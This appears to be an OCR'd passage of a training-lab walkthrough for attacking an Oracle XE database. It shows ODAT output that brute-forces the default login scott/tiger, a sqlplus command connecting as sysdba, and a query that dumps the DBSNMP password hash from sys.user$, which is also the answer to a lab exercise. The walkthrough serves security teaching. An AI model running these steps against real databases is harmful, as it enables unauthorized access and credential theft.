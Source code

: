 ```
[!] Notice: 'xdb' account is locked, so skipping this username for password#############################################     | ETA:  00:00:21 
100% |#######################################################################################################################| Time: 00:08:56 
[+] Accounts found on 10.129.19.130:1521/sid:XE: 
scott/tiger

[5] (10.129.19.130:1521): Searching valid accounts on the XEXDB Service Name
The login abm has already been tested at least once. What do you want to do:                                                 | ETA:  --:--:-- 
- stop (s/S)
- continue and ask every time (a/A)
- skip and continue to ask (p/P)
- continue without to ask (c/C)
s
100% |#######################################################################################################################| Time: 00:00:09 
```

Using the found credentials `scott/tiger`, students need to connect to the database on `STMIP` with `sqlplus` as `sysdba`, utilizing the `Oracle Express Edition` (`XE`) `service identifier`:

Code: shell

```shell
sqlplus scott/tiger@STMIP/XE as sysdba
```

```
┌─[us-academy-2]─[10.10.15.12]─[htb-ac-594497@htb-pe4uhikext]─[~/odat]
└──╼ [★]$ sqlplus scott/tiger@10.129.8.92/XE as sysdba

SQL*Plus: Release 19.0.0.0.0 - Production on Wed Mar 29 19:06:12 2023
Version 19.6.0.0.0

Copyright (c) 1982, 2019, Oracle.  All rights reserved.

Connected to:

Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production

SQL>
```

At last, when retrieving the password hashes from the `sys.user$` table, students will attain the password `E066D214D5421CCC` for the user `DBSNMP`:

Code: sql

```sql
select name, password from sys.user$ where name = 'DBSNMP';
```

Code: sql

```sql
SQL> select name, password from sys.user$ where name = 'DBSNMP';

NAME			       PASSWORD
------------------------------ ------------------------------
DBSNMP			       E066D214D5421CCC
```
